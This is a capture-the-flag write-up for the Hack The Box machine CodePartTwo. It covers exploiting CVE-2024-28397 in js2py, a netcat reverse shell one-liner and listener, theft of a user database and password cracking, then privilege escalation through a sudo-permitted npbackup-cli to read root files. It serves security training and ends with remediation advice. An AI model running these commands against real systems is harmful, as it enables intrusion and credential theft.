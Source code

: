 # CTF Write-up — CodePartTwo from hackthebox.com

> **Summary:** 
> **Difficulty:** Easy  
> **HTB:** https://app.hackthebox.com/machines/692
>
![Tactics](https://img.shields.io/badge/Tactics-Source%20Code%20Analysis%20%7C%20Hash%20Cracking%20%7C%20Priv%20Esc-blue?style=flat-square)
![Tools](https://img.shields.io/badge/Tools-Nmap%20%7C%20js2py%20%7C%20John-red?style=flat-square)



---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.10.11.82 -oN nmap.txt
```
- Results (high-level):
  - `8000/tcp` — HTTP (Gunicorn)
  - `22/tcp` — SSH

### Web site analysis
- after creating an account and logging in we find a ![code execution page](evidences/run_code_website.png) 
- we also find a download to the source code running this website: ![download button](evidences/download_app.png)

### Source code analysis
- we download the source code and analyze the `app.py` file. See `evidences/app.py`.  
- analyzing the file we find that the code provided by the user is ran through the `js2py` library: ![js2py code](evidences/js2py.png)
- from the requirements.txt file we find that the version is `js2py 0.74`

### CVE research
- there's a critical CVE correlated to js2py: [CVE-2024-28397](https://nvd.nist.gov/vuln/detail/CVE-2024-28397)
- there're also several PoC exploits: [PoC in python](https://github.com/advisories/GHSA-r9pp-r4xf-597r)

---

## 2. Resource development

### Reverse shell
- since the PoC allow us to do a RCE we prepare a reverse shell from [reverse shell generator](https://www.revshells.com/):   
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.26 9000 >/tmp/f
```

### Listener Socket
- we start a socket listener to catch the remote connection that will be started:
``` bash
nc -lvnp 9000
```

---

## 3. Initial access
### App user access
- once everything is ready we just need to upload the PoC, run the code and get initial access: ![initial access](evidences/initial_access.png)

### System enumeration
- we accessed as user `app`, so we need to gain access as a more priviledge user
- navigating the system we find the `user.db` file and download it locally. See `evidences/user.db`: ![users.db download](evidences/users_db_download.png)  

### Users.db enumeration
- opening the database and searching in it let us find the users hashes: ![users hashes](evidences/user_hash.png)

### Hash cracking
- we can crack the hash using John the ripper:
``` bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```
![cracked hash](evidences/cracked_hash.png)

### User Flag
- we can now ssh into the machine:
``` bash
ssh marco@10.10.11.82
```
![user flag](evidences/user_flag.png)

---

## 4. Privilege escalation
### Linux enumeration
- we use `sudo -l` to list cmds that the user can run as privileged user and find npbackup-cli: ![sudo cmds](evidences/sudo_cmds.png)
- we also find the config file for npbackup: ![npbackup config](evidences/npbackup_config.png)

### Npbackup hack
- we create a version of npbackup config that backup /root folder instead of /home/app/app: ![modified npbackup config](evidences/root_config.png)
- than we create a backup of the folder:
``` bash
npbackup-cli -c root.conf -b
```
- now we can dump file's content form this backup:
``` bash
npbackup-cli --dump /root/root.flag
```
![root flag](evidences/root_flag.png)

---

## 5. Findings & recommendations
### Key findings
| # | Category                                    | Description                                                                                            | Impact   |
| - | ------------------------------------------- | ------------------------------------------------------------------------------------------------------ | -------- |
| 1 | **Remote Code Execution (RCE)**             | The `js2py` library (v0.74) was vulnerable to arbitrary code execution (CVE-2024-28397).               | Critical |
| 2 | **Insecure Configuration Management**       | The web app allowed users to upload or execute arbitrary code, leading to exploitation.                | High     |
| 3 | **Weak Credential Storage**                 | Password hashes were stored unsalted in a SQLite database.                                             | Medium   |
| 4 | **Privilege Escalation via Backup Utility** | `npbackup-cli` was executable with elevated privileges and could be reconfigured to access root files. | High     |


### Immediate remediation (high-level)
1. **Patch and Dependency Management** Update js2py to >= 0.74.1 or any version where CVE-2024-28397 is mitigated.

2. **Secure Code Execution Handling** Never directly evaluate user-supplied input in server-side logic (especially with libraries like js2py, exec, eval, or template rendering engines).

3. **Credential and Database Security** Store credentials using strong hashing algorithms (e.g., bcrypt, argon2) with salt.

4. **Privilege Management** Restrict usage of elevated binaries (sudo access) to necessary commands only.

5. **System Hardening and Monitoring** Enable AppArmor/SELinux profiles to prevent command execution escalation.    


---